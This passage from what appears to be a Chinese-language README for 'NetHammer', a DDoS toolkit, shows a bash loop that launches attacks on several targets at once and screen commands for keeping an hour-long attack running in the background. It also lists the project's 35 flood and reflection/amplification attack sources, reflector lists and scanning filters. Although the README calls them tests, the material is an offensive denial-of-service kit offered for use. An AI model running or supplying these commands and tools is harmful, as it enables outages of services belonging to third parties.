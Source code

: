 ```bash
# 批量攻击脚本
#!/bin/bash
targets=("target1.com" "target2.com" "target3.com")
for target in "${targets[@]}"; do
    python3 quick_attack.py $target -m multi -t 600 &
done
```

### 后台运行

```bash
# 使用screen后台运行
screen -S nethammer_test
python3 quick_attack.py 192.168.1.100 -m multi -t 3600
# Ctrl+A+D 分离会话

# 查看后台测试
screen -r nethammer_test
```

---

## 📁 项目结构

```
NetHammer/
├── attack_tools/                # 编译后的测试工具 (35个)
├── source_code/                 # C语言源码 (35个文件)
│   ├── http2_rapid_reset_attack.c      # HTTP/2 Rapid Reset测试
│   ├── cldap_amplification_attack.c    # CLDAP反射放大测试
│   ├── coap_amplification_attack.c     # CoAP放大测试
│   ├── dns_reflection_attack.c         # DNS反射测试
│   ├── syn_flood_attack.c              # SYN洪水测试
│   ├── udp_flood_attack.c              # UDP洪水测试
│   ├── http_flood_attack.c             # HTTP洪水测试
│   ├── netbios_amplification_attack.c  # NetBIOS放大测试
│   ├── heartbeat_amplification_attack.c # Heartbeat放大测试
│   ├── arme_ddos_attack.c              # ARME高级测试
│   ├── dominate_ddos_attack.c          # Dominate控制测试
│   ├── essyn_ddos_attack.c             # ESSYN增强测试
│   └── ...                             # 其他22个源码文件
├── scan_filter_attack/          # 扫描和过滤工具
│   ├── zmap_udp_probes/         # Zmap UDP探针 (40+种协议)
│   ├── protocol_filters/        # 协议过滤器
│   ├── memcached_scan_filter/   # Memcached扫描过滤
│   ├── ntp_scan_filter/         # NTP扫描过滤
│   └── ssdp_scan_filter/        # SSDP扫描过滤
├── reflector_lists/             # 反射器列表
├── logs/                        # 测试日志
├── quick_attack.py              # 一键测试脚本
├── NetHammer_Master_Controller.py      # 主控制器
├── create_reflector_database.py        # 反射器生成器
├── compile_tools.sh             # 编译脚本 (支持35个工具)
├── quick_compile.sh             # 快速编译脚本 (10个核心工具)
├── install_nethammer.sh         # 安装脚本
└── README.md                    # 项目说明
```

---
